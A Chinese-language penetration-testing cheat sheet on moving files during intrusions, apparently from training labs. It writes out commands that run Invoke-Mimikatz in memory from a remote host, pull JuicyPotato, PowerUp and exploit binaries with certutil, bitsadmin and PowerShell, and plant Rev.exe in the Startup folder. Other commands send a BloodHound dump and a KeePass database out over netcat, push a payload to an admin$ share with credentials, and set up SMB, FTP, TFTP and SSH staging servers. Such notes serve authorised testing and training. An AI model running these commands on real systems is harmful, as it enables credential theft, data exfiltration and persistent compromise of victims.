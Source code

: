 # 引入Invoke-Mimikatz.ps1，并且在内存中执行
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```


# certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```

# bitsadmin.exe
```
bitsadmin.exe /transfer /Download /priority Foreground http://10.13.21.169/exp.exe C:\Users\thm\Desktop\exp.exe
```

# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"
```

```
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
```

```
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

# smb

## 使用smbclient
```
smbclient -c 'put <文件名>' -U <用户名> -W <域前缀> '//<主机名>/<文件夹>/' <用户密码>

smbclient -c 'put max.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

## kali创建smb分享文件夹
在linux创建一个临时smb分享目录,文件夹：s，用户名：max，密码：s3cureP@ssword 
```
/usr/share/doc/python3-impacket/examples/smbserver.py s . -smb2support -username max -password s3cureP@ssword 


/usr/share/doc/python3-impacket/examples/smbserver.py s . -smb2support  # 没有密码，直接访问
```

在windows连接这个这个smb服务

```
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
```

如：
```
PS C:\xampp\htdocs\resources\uploads> net use \\10.50.102.104\share  /USER:max s3cureP@ssword
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
The command completed successfully.
```

从kali上拷贝文件到windows
```
PS C:\xampp\htdocs\resources\uploads> copy \\10.50.102.104\share\nc.exe .
copy \\10.50.102.104\share\nc.exe .

```



# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


# scp

1. 从本地上传文件到远程计算机或服务器的命令如下：
先进入本地目录下，然后运行如下命令：
```
scp my_local_file.zip root@192.168.1.104:/usr/local/nginx/html/webs
```

2. 从远程主机复制文件到本地主机(下载)的命令如下：（假如远程文件是about.zip）
先进入本地目录下，然后运行如下命令：
```
scp root@192.168.1.104:/usr/local/nginx/html/webs/about.zip .
```

# pscp

```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```